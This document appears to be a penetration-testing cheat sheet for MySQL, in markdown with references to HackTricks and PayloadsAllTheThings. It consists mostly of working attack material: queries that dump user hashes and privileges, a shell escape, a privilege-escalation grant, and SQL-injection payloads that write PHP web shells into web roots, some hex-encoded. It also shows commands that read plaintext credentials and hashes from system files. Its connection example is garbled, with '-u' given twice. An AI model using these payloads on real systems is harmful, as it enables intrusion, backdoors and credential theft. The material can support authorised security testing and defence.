 # Basic Information

MySQL is an open-source relational database management system (RDBMS) used to store, manage, and retrieve data.

## Connection

```shell
# mysql-client
mysql -u <hostname> -u root
mysql -u <hostname> -u root@localhost
```

# Enumeration

```sql
-- Version
SELECT version();
SELECT @@version();

-- Get databases
SHOW databases;

-- User
SELECT user();

-- Get users, permissions and hahes
SELECT * FROM mysql.user;

-- Permission
SHOW GRANTS;
SHOW GRANTS FOR "root"@"localhost";
SHOW GRANTS FOR CURRENT_USER();

-- From DB
SELECT * FROM mysql.user WHERE user="root";

-- Get users with file_priv
SELECT user,file_priv FROM mysql.user WHERE file_priv="Y";

-- Get users with Super_priv
SELECT user,Super_priv FROM mysql.user WHERE Super_priv="Y";

-- Database Name
SELECT database(); 

-- List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION";

-- @Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION" AND routine_schema != "sys";

-- Get shell
\! sh
```

# Privilege Escalation
## Create User and Give Privileges

```sql
CREATE USER test identified BY "test";

GRANT SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by "mysql" WITH GRANT OPTION;
```

## Command Execution
```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"

[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'

[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -

[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'


[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'

[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

# Extracting MySQL Credentials From Files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

```shell
cat /etc/mysql/debian.cnf
```

You can **use these credentials to login in the MySQL database**.

Inside the file: _/var/lib/mysql/mysql/user.MYD_ you can find **all the hashes of the MySQL users** (the ones that you can extract from mysql.user inside the database)_._

You can extract them doing:

```shell
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

# References

- [https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
- [https://dev.mysql.com/doc/](https://dev.mysql.com/doc/)
- [https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17](https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17)